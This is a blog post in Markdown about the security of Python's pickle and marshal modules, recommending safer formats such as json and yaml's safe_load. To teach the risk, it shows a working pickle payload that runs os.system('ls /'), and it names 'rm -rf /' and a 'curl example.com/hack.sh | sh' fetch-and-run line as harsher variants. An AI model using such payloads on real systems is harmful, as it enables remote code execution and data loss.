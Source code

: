 ```yaml
---
title: "Security of Python’s pickle and marshal modules"
date: 2014-11-14
tags: ['Python', 'Security']
---
```


Both the [`pickle`][pickle] and [`marshal`][marshal] modules come with a similar
big red warning:

> The pickle module is not secure against erroneous or maliciously constructed
> data. Never unpickle data received from an untrusted or unauthenticated
> source.

> The marshal module is not intended to be secure against erroneous or
> maliciously constructed data. Never unmarshal data received from an untrusted
> or unauthenticated source.

Lets see why.

Marshal
-------

There are no **known** ways to exploit `marshal`. Executing code when using
`marshal.loads()` is not something I was able to do, and looking at the
`marhal.c` source code, I don't see an immediately obvious way.

So why is this warning here? [The BDFL explains][bfdl]:

> BTW the warning for marshal is legit -- the C code that unpacks marshal data
> has not been carefully analyzed against buffer overflows and so on. Remember
> the first time someone broke into a system through a malicious JPEG? The same
> could happen with marshal. Seriously.

I recommend you read the rest of the discussion; a bug is shown where
unmarshaling data causes Python to segfault; this has been fixed since Python
2.5 (this bug can, potentially, be abused to execute code). Other bugs *may*
still exist, though!

Furthermore, the `marshal` docs mention:

> This is not a general “persistence” module. [..]  The marshal module exists
> mainly to support reading and writing the “pseudo-compiled” code for Python
> modules of .pyc files.

So it's not even designed to persist data in a reliable way.

Pickle
------

You can easily execute arbitrary code with `pickle`. For example:

    >>> import pickle
    >>> pickle.loads(b"cos\nsystem\n(S'ls /'\ntR.")
    bin   data  download  home  lib64       mnt  proc  run   srv  tmp     usr      var
    boot  dev   etc       lib   lost+found  opt  root  sbin  sys  ubuntu  vagrant
    0

This is a harmless `ls /`, but can also be a less harmless `rm -rf /`, or a
`curl http://example.com/hack.sh | sh`.

You can see how this works by using the `pickletools` module:

    >>> import pickletools
    >>> pickletools.dis(b"cos\nsystem\n(S'ls /'\ntR.")
        0: c    GLOBAL     'os system'
       11: (    MARK
       12: S        STRING     'ls /'
       20: t        TUPLE      (MARK at 11)
       21: R    REDUCE
       22: .    STOP

`pickle.py` has some comments on what these opcodes mean:

    GLOBAL         = b'c'   # push self.find_class(modname, name); 2 string args
    MARK           = b'('   # push special markobject on stack
    STRING         = b'S'   # push string; NL-terminated string argument
    TUPLE          = b't'   # build tuple from topmost stack items
    REDUCE         = b'R'   # apply callable to argtuple, both on stack
    STOP           = b'.'   # every pickle ends with STOP

Most of it is self-explanatory; with `GLOBAL` you can get any function, and
with `REDUCE` you call it.

Since Python is pretty dynamic, you can also use this to monkey-patch a program
in run-time. For example, you can change the `check_password` function with one
where you upload the password to a server.

So what *is* secure?
--------------------

XML, json, MessagePack, ini files, or perhaps something else. It depends on
which format is the best in your situation.

Has this code been "carefully analyzed against buffer overflows and so on"? Who
knows. Most code hasn't, and C makes it easy to do things wrong.[^1] Even Python
code may be vulnerable, as it [may call functions implemented in C that are
vulnerable](http://www.cvedetails.com/product/18230/Python-Python.html?vendor_id=10210).

There [have been problems with Python's JSON module][json-cve]. But at the same
time, it's used a lot in public-facing apps, so it's *probably* safe. It'll
certainly be safer than `marshal`, since this was only designed for `.pyc` files
and explicitly comes with a "not audited!" warning.

This is no guarantee. Remember that [YAML security hole a few years back that
caused every Ruby on Rails application in the world to be vulnerable to
arbitrary code execution][yaml-oops]. Oops! And this wasn't even a subtle buffer
overflow, but a much more obvious problem.

You should *not* use [yaml][yaml]'s `load()` method, as this has [the same
problems as Ruby's YAML][no-yaml]. Use `safe_load()` instead.

Conclusion
----------

The warning in the `pickle` module is very much warranted (it should be stated
stronger), while the warning above the `marshal` module is more of a "*this code
was not designed with security in mind*"-type of warning, but actually
exploiting it is not as easy and relies on the hypothetical existence on unknown
bugs. Still, you're probably better off using something else.

[^1]: There really ought to be a "carefully analyzed against buffer overflows and so on" seal of trust for open source projects. Yeah, you can shelf out the big bucks and get your code analyzed by Veracode and such, but this is not feasible for open source projects. There is *some* effort to do this after the OpenSSL Heartbleed clusterfuck a few years ago in the form of the [Core Infrastructure Initiative](https://en.wikipedia.org/wiki/Core_Infrastructure_Initiative), but its scope and budget are limited (but it's young, and may gain traction in a few years).

[marshal]: https://docs.python.org/3/library/marshal.html
[pickle]: https://docs.python.org/3/library/pickle.html
[yaml]: http://pyyaml.org/
[yaml-oops]: http://www.kalzumeus.com/2013/01/31/what-the-rails-security-issue-means-for-your-startup/
[no-yaml]: http://nedbatchelder.com/blog/201302/war_is_peace.html
[json-cve]: https://access.redhat.com/security/cve/CVE-2014-4616
[bfdl]: http://grokbase.com/t/python/python-ideas/083532w3t7/an-official-complaint-regarding-the-marshal-and-pickle-documentation#20080305gvdndfl4m3f2u6cmpxvrclfcou

